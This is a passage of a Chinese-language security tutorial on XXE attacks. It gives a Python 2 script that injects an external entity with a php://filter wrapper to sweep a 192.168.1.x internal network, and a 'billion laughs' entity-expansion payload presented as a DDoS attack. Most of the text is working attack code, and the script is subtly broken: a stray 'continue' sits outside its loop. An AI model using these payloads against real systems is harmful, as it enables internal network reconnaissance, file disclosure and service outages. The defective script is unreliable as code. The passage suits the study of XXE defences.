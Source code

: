 xxe 由于可以访问外部 url，也就有类似 ssrf 的攻击效果，同样的，也可以利用 xxe 来进行内网探测。

可以先通过 file 协议读取一些配置文件来判断内网的配置以及规模，以便于编写脚本来探测内网。

一个 python 脚本实例：

```py
import requests
import base64



#Origtional XML that the server accepts
#<xml>
#    <stuff>user</stuff>
#</xml>



def build_xml(string):
    xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
    xml = xml + "\r\n" + """<!DOCTYPE foo [ <!ELEMENT foo ANY >"""
    xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
    xml = xml + "\r\n" + """<xml>"""
    xml = xml + "\r\n" + """    <stuff>&xxe;</stuff>"""
    xml = xml + "\r\n" + """</xml>"""
    send_xml(xml)

def send_xml(xml):

    headers = {'Content-Type': 'application/xml'}
    x = requests.post('http://127.0.0.1/xml.php', data=xml, headers=headers, timeout=5).text
    coded_string = x.split(' ')[-2] # a little split to get only the base64 encoded value
    print coded_string

#   print base64.b64decode(coded_string)

for i in range(1, 255):
    try:

        i = str(i)
        ip = '192.168.1.' + i
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
        print string
        build_xml(string)
    except:
      print "error"
continue
```

## DDOS 攻击

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "abc">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
```